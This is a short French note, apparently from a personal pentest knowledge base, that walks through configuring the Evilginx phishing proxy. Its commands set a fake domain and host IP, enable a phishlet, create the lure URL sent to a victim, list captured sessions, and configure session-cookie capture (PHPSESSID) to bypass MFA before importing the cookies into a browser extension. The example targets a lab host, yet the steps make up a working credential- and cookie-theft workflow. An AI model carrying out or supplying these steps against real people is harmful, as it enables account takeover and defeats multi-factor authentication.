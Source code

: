 Une fois notre [[Creating Phishlet]] configurer.

#Basic

Configurer un faux domaine cible

```c
config domain fake.com
```

Attributer une IP au faux domain, cette IP est generalement celui ou `evil` est heberger

```c
config ipv4 127.0.0.1
```

Donner un hostname a un phishlets le nom d'un phishlets doit toujours se terminer par le **domaine** configurer dans `evil` 

Le mieux est d'utiliser le `proxy_hosts->domain.config.domain`

```c
phishlets hostname metasploitable metasploitable.fake.com
```

Activer le phislets cela demande une configuration TLS

```c
phishlets enable metasploitable
phishlets metasploitable
```

Generer un host `/etc/hosts`

```c
phishlets get-hosts metasploitable
```

Cree un leurs, c'est le lien qui sera envoyer a la victime

```c
lures create metasploitable
lures get-url 0
```

Afficher les informations d'une sessions

```c
sessions
sessions id
```

#MFA 

Ajouter `always`dans ce fichier pour que Evilginx prend toutes les donnes

```json
auth_tokens:
    keys: ['PHPSESSID:always', 'security:always']
```

Copuer le result du cookie dans EditThisCookie

[Personalizing Lures](./Personalizing%20Lures.md)

